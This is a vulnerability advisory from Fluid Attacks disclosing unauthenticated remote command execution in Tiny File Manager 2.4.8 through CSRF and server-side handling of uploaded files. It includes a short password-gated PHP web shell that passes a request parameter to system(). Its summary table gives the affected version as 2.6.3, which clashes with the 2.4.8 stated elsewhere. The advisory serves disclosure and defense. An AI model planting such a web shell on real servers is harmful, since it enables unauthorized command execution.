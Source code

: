 ```yaml
---
slug: advisories/mosey/
title: Tiny File Manager 2.4.8 - Remote Command Execution
authors: Carlos Bello
writer: cbello
codename: mosey
product: Tiny File Manager 2.4.8 - RCE
date: 2022-11-21 14:00 COT
cveid: CVE-2022-23044,CVE-2022-45475,CVE-2022-45476
severity: 10.0
description: Tiny File Manager 2.4.8    -    Remote Command Execution (RCE)
keywords: Fluid Attacks, Security, Vulnerabilities, Tiny File Manager, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | Tiny File Manager 2.4.8 - RCE                                      |
| **Code name**         | [Mosey](https://en.wikipedia.org/wiki/Lil_Mosey)                   |
| **Product**           | Tiny File Manager                                                  |
| **Affected versions** | Version 2.6.3                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-11-21                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Remote command execution                                                                                                    |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)                                 |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H                                                                                |
| **CVSSv3 Base Score** | 10.0                                                                                                                        |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-23044](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23044), [CVE-2022-45475](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-45475), [CVE-2022-45476](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-45476)                                                 |

## Description

Version 2.4.8 of Tiny File Manager allows an unauthenticated remote
attacker to execute arbitrary code remotely on the server. This is
possible because the application is vulnerable to CSRF, processes
uploaded files server-side (instead of just returning them for
download), and allows unauthenticated users to access uploaded files.

## Vulnerability

This vulnerability occurs because the application is vulnerable to CSRF,
processes uploaded files server-side (instead of just returning them for
download), and allows unauthenticated users to access uploaded files.

## Exploitation

To exploit this vulnerability, the following file must be sent to the server
as administrator (to achieve this I will abuse the CSRF present in the application).

### exploit.php

```php
<?php
    if($_POST && $_POST['password']==="AGSH635479302H235") {
        echo system($_POST['cmd']);
    }
?>
```

## Evidence of exploitation

![RCE-FIleManager](https://user-images.githubusercontent.com/51862990/202495758-36ca856f-19fb-4cc9-996a-d8e6000e633f.gif)

![RCE-FileManager](https://user-images.githubusercontent.com/51862990/202495810-5201db03-3c1b-4937-b252-49bbc6b62cff.png)

## Our security policy

We have reserved the CVE-2022-23044, the CVE-2022-45475, the CVE-2022-45476 to refer
to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Tiny File Manager 2.4.8

* Operating System: GNU/Linux

## Mitigation

An updated version of Tiny File Manager is available at the vendor page.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/prasathmani/tinyfilemanager>

**Release page** <https://github.com/prasathmani/tinyfilemanager/releases/tag/2.5.0>

## Timeline

<time-lapse
  discovered="2022-11-17"
  contacted="2022-11-17"
  replied="2022-11-17"
  confirmed="2022-11-17"
  patched=""
  disclosure="2022-11-21">
</time-lapse>
